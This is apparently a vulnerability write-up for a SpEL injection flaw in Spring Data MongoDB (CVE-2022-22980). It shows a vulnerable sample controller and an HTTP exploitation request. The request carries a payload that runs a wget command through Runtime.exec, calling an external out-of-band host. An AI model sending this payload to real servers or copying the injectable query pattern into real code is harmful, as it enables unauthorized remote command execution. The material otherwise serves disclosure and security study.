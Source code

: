 The sample controller class `UserController.java` that import `com.example.mongodb.repository.UserRepository` namespace is also illustrated as follow:

```
package com.example.mongodb.controller;

import com.example.mongodb.model.User;
import com.example.mongodb.repository.UserRepository;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.http.MediaType;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseStatus;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.http.HttpStatus;

import java.io.UnsupportedEncodingException;
import java.net.URLDecoder;

@RestController
@RequestMapping("/v1/user")
public class UserController {

   @Autowired
   private UserRepository userRepository;

   @ResponseStatus(HttpStatus.CREATED)
   @PostMapping(consumes = MediaType.APPLICATION_JSON_VALUE)
   public User createUser(@RequestBody User user) {
      return userRepository.save(user);
   }

   @PostMapping(value="/get")
   public User readUserById(@RequestParam("keyword") String id) throws UnsupportedEncodingException {
      return userRepository.findByUserNameLike(URLDecoder.decode(id, "utf-8"));
   }

```

**`Exploitation Request & Response`**  

```
POST /v1/user/get HTTP/1.1
Host: vulnerablehost:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

keyword=T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('wget+98fj4ailoo81u7rkveuwur8hf8l09p.oastify.com/CVE-2022-22980')


```
